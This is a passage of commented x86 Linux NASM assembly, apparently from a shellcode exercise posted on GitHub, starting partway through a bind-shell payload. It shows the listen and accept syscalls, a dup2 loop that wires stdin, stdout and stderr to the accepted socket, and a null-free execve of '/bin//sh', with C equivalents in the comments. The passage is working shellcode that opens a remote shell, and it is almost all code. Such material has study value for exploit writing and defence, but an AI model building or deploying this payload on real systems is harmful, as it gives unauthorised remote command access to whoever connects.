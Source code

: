 ```nasm
    sub edx, esp                ;Use the stack pointers (esp and ebp to calculate the size of the structure)
    
    ;C code representation of the systemcall:
    ; --> bind(sockfd, (struct sockaddr *)&addr, sizeof(addr));
    int 0x80            ;Go for it


    ;This part initialize and call the "listen" systemcall
    xor eax, eax                ;Initialize eax to NULL
    mov ax, 0x16b               ;Move the "listen" systemcall number inside ax
    mov ebx, edi                ;Move the return value of "socket" inside ebx
    xor ecx, ecx                ;Initialize ecx to NULL
    
    ;C code representation of the systemcall:
    ; --> listen(sockfd, 0);
    int 0x80                    ;execute systemcall


    ;This part initialize and call the "accept" systemcall
    xor eax, eax                ;Initialize eax to NULL
    mov ax, 0x16c               ;Move the "accept" systemcall number inside ax
    mov ebx, edi                ;Move the return value of "socket" inside ebx
    xor ecx, ecx                ;Initialize ecx to NULL
    xor edx, edx                ;Initialize edx to NULL
    xor esi, esi                ;Initialize esi to NULL
    
    ;C code representation of the systemcall:
    ; -- > int connfd = accept(sockfd, NULL, NULL);
    int 0x80                    ;Execute systemcall
    mov esi, eax                ;Move the return value from the "accept" systemcall into esi


    ;This part redirect the STDIN, STDOUT and STDERR into the socket
    mov cl, 3                   ;Initialize cl to 3
    dup:
        xor eax, eax            ;Initialize eax to NULL
        mov al, 0x3f            ;Move the "dup2" systemcall number inside al 
        mov ebx, esi            ;Move the return value of "accept" in ebx
        dec cl                  ;Decrement cl to 1

        ;C code representation of the systemcall:
        ;for (int i = 0; i < 3; i++)
        ;{
        ;    dup2(connfd, i);
        ;}
        int 0x80                ;Execute systemcall
        inc cl                  ;Increment cl to 1
        loop dup                ;Loop three times until cl is equal to 0


    ;This part initialize and call the "execve" systemcall
    xor eax, eax                ;Initialize eax to NULL
    push eax                    ;Push a NULL Byte on the stack
    push 0x68732f2f
    push 0x6e69622f             ;Push "/bin//sh" on the stack
    mov al, 0xb                 ;Move the "execve" systemcall number inside al
    mov ebx, esp                ;Initialize ebx to "/bin//sh%00"
    xor ecx, ecx                ;Initialize ecx to NULL
    xor edx, edx                ;Initialize edx to NULL
    ;C code representation of the systemcall:
    ; --> execve("/bin/sh", NULL, NULL);
    int 0x80                    ;Execute systemcall
```